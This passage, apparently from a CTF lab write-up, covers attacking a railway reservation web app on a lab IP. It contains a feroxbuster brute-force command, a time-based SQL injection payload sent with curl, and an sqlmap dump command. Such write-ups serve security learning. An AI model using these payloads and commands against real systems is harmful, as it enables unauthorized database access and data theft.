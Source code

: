 I started the same directory bruteforce on this port:
```bash
feroxbuster -u http://10.10.84.228:873/  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,html,txt,bak,js,old
```
output:
```bash
200      GET        1l        8w       37c http://10.10.84.228:873/secret.txt
301      GET        9l       28w      316c http://10.10.84.228:873/rail => http://10.10.84.228:873/rail/
```
On the path `/rail` we can see this page:
	
![rail](./pic/rail_site.png)
	
orrs is a ticket booking site, the source code can be found [here](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html).<br>
Online i found [this poc](https://www.exploit-db.com/exploits/50646) regarding an SQLI.<br>
So i tried visiting the vulnerable endpoint with this payload:
```bash
curl 'http://10.10.84.228:873/rail/?page=reserve&sid=1?page=reserve&sid=1%27)%20AND%20(SELECT%206842%20FROM%20(SELECT(SLEEP(10)))UsWr)%20AND%20(%27WBCm%27=%27WBCm'
``` 
We got around 10 seconds dealy, that means the target is vulnerable to time-based SQLI.<br>
So i passed this url to slqmap to let him do the hard work for me:
```bash
sqlmap 'http://10.10.84.228:873/rail/?page=reserve&sid=1?page=reserve&sid=1*' --batch --dump
```
from this first dump i found out the tables name:
	
![table names](./pic/tables.png)
	